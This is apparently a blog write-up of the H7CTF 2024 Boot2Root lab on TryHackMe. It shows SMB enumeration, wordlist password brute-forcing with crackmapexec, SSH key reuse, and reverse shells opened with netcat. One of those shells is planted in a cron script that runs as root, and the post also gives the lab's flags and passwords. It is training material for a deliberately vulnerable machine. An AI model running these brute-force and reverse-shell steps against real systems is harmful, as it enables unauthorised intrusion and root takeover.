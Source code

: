 ```yaml
---
title: Boot2Root
date: 2024-09-27
author: 1byteBoy
tags:
  - Boot2Root
draft: false
---
```


The CTF Event has Boot2Root as a part of the challenge category, which was hosted on [TryHackMe](https://tryhackme.com/r/room/h7ctf2024).
The Room has three tasks, which was three challenges for the main CTF under Boot2Root category. Each flag we get for the task is a flag for each of those challenges 

## Task 1 : Initial Access

### Enumeration

```
PORT      STATE  SERVICE        REASON         VERSION
22/tcp    closed ssh            reset ttl 61
139/tcp   open   netbios-ssn    syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open   netbios-ssn    syn-ack ttl 61 Samba smbd 4.6.2
44444/tcp closed cognex-dataman reset ttl 61
54321/tcp open   ssh            syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
54322/tcp closed unknown        reset ttl 61
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see SMB and SSH is up and SSH is running on port `54321`.

#### SMB Enumeration

Using `smbclient` i was able to list the available shares, but they are not accessible without any authentication.

```
$ smbclient --no-pass -L //10.10.117.5

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (h7tex server (Samba, Ubuntu))
admin           Disk      I am the Admin
share           Disk      Samba on Ubuntu
ILoveYou        Disk      Someone once said Love is blind
```

Username enumeration using `enum4linux` through RID Cycling

```
$ enum4linux -a $IP

....
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\megatron (Local User)
S-1-22-1-1001 Unix User\optimus (Local User)
S-1-22-1-1002 Unix User\h7tex (Local User)

[+] Enumerating users using SID S-1-5-21-3984610305-3208475025-1872719784 and logon username '', password ''

S-1-5-21-3984610305-3208475025-1872719784-501 H7TEX\nobody (Local User)
S-1-5-21-3984610305-3208475025-1872719784-513 H7TEX\None (Domain Group)
S-1-5-21-3984610305-3208475025-1872719784-1000 H7TEX\megatron (Local User)
```

From the Task 1 description we also get the similar name `megatron` and also a password hint 

```
The Hint :

He deployed a password mechanism for sharing the files. He took a word from a small SMB article in Wikipedia, reversed it and put it in our CTF Flag format. 
```

Note : There are two SMB Wikipedia articles

- https://en.wikipedia.org/wiki/Server_Message_Block
- https://en.wikipedia.org/wiki/SMB 

We were stuck for a long time on the first on but later figured out, if we go with the second one which was intended, it will take much less time

So for creating the wordlist we can use a tool called `cewl`

```
cewl --depth 1 https://en.wikipedia.org/wiki/SMB -w passwords.txt
```

Next let's reverse the words and put it in the flag format, we can do that using the following shell command

```bash
cat passwords.txt | rev | xargs -I@ sh -c 'echo H7CTF{@}' | tee revPass.txt
```

Now let's bruteforce the password using `crackmapexec`

```bash
crackmapexec smb 10.10.155.25 -u megatron -p revPass.txt --shares
```

Source of help for using crackmapexec : [Reddit](https://www.reddit.com/r/kali4noobs/comments/tatllp/smb_brute_forcing/)

After waiting for a few minutes we get the password

```
SMB         10.10.155.25    445    H7TEX            [+] H7TEX\megatron:H7CTF{noitaugibmasiD} 
SMB         10.10.155.25    445    H7TEX            [+] Enumerated shares
SMB         10.10.155.25    445    H7TEX            Share           Permissions     Remark
SMB         10.10.155.25    445    H7TEX            -----           -----------     ------
SMB         10.10.155.25    445    H7TEX            print$          READ            Printer Drivers
SMB         10.10.155.25    445    H7TEX            IPC$                            IPC Service (h7tex server (Samba, Ubuntu))
SMB         10.10.155.25    445    H7TEX            admin           READ            I am the Admin
SMB         10.10.155.25    445    H7TEX            share           READ            Samba on Ubuntu
SMB         10.10.155.25    445    H7TEX            ILoveYou        READ            Someone once said Love is blind
```

Using the credentials and domain information we can list those three shares

```bash
smbclient //<IP>/<share> -U megatron -W H7CTF
```

Among those three shares, we got a RSA key from the `ILoveYou` share encoded in base64 in a file named `oveletter.txt` 

```bash
cat loveletter.txt | base64 -d | tee megatron_id_rsa && chmod 600 megatron_id_rsa 
```

Now we can login through SSH as user megatron, using the RSA key and get initial access to the system.

```bash
ssh -i megatron_id_rsa megatron@10.10.155.25 -p 54321
```

----

After logging in as megatron, we get the first flag from a file named `txt.galf`, but it was in reverse 

```bash
megatron@h7tex:~$ cat txt.galf | rev

H7CTF{HUM4N5_D0n’7_d3S3R73_T0_L1v3}
```

## Task 2 : System Enumeration

we also get the password of the user `megatron` from the `.secret` file

```
megatron password: Un1v3rse#!S@M1%E
```

Using the password, the first thing i checked is for the available sudo permissions

```
megatron@h7tex:~$ sudo -l
[sudo] password for megatron: 
Matching Defaults entries for megatron on h7tex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User megatron may run the following commands on h7tex:
    (optimus : optimus) /home/optimus/nc
```

We can run `netcat` as user optimus and get a shell back on our attacking machine

```
# on host run a netcat listener

nc -lvnp 1337

# on Target machine run

sudo -u optimus /home/optimus/nc -e /bin/bash <tun0_IP> 1337
```

After getting a shell as user `optimus`, we can grab the private RSA key from the home directory and login using SSH for stable shell but wait there is still one more step, we need the passphrase for the RSA key. 

At this point we can either create our own KEY pair and add the public key to `authorized_keys` file or crack it.

I did the first one but also cracked it later. The passphrase after cracking was `alianzalima`.

After loggin in we get the second flag in `flalalalalalag.txt` file : `H7CTF{3ALL1NG_4LL_AUT0B0T5}`

## Task 3 : Pwn Root

After enumerating the system for a bit, basically using [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), we found a crontab entry running as root

```
*  *    * * *   root    /home/h7tex/random.sh
```

Also the file has group access to `optimous` and has read and `write` permission, so the basic thing we can do without messing with the server is getting a netcat shell access

```bash
#!/bin/bash

random_action(){
        case $((RANDOM % 2)) in
        0) touch "/root/random/file_$(date +%s).txt";;
        1) ls > /dev/null 2>&1 ;;
        esac
}

/home/optimus/nc -e /bin/sh 10.4.83.105 1337 # the netcat rev shell
random_action
```

After waiting for few seconds we get a netcat connection back, with our root shell, where we can find the file `root156743232567826873451954.txt` which contains our last and final flag `H7CTF{r00T_1s_G0d_4nD_K1Ng}`

---

#### H7CTF 2024 PWNED


